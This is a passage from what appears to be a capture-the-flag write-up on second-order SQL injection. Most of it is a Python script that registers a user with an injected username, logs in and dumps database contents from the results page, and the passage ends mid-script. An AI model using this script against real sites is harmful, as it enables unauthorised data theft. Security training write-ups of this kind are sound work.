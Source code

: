 We get:

```
There is only 1 word 2. 
```

Which means that it seems like the second column is the one we can write, with that in our mind, we can either do it manually or automatically with a script, let's go with the script section for an easier exploitation, let's begin by reading `information_schema.schemata`:

```python
import requests
import sys
import random
import string
import re
from colorama import init, Fore, Style

# Initialize colorama
init(autoreset=True)

def sqli(url, injection):
    s = requests.Session()
    N = 7
    email = ''.join(random.choices(string.ascii_uppercase + string.digits, k=N))
    
    register_data = {
        "username": injection,
        "password": "password",
        "email": str(email) + "@test.com"
    }

    register_url = url + "/register"
    print(Fore.YELLOW + f"[+] Sending registration with injection payload...")
    register = s.post(register_url, data=register_data)

    login_data = {
        "username": injection,
        "password": "password"
    }

    login_url = url + "/login"
    print(Fore.YELLOW + f"[+] Logging in with injected user...")
    home = s.post(login_url, data=login_data)

    box_data = {
        "text_box": "fasdfasd"
    }

    print(Fore.YELLOW + f"[+] Triggering SQLi through text box post-login...")
    box = s.post(login_url, data=box_data)

    search = re.compile(r"<p id=results>(.*?)</p>", re.DOTALL)
    match = search.search(box.text)
    
    if match:
        output = match.group(1).strip()
        print(Fore.GREEN + "[+] SQLi successful! Dumped data:\n")
        print(Fore.CYAN + output)
    else:
        print(Fore.RED + "[-] SQLi failed or no results found.")

if __name__ == "__main__":
    try:
        url = sys.argv[1]
```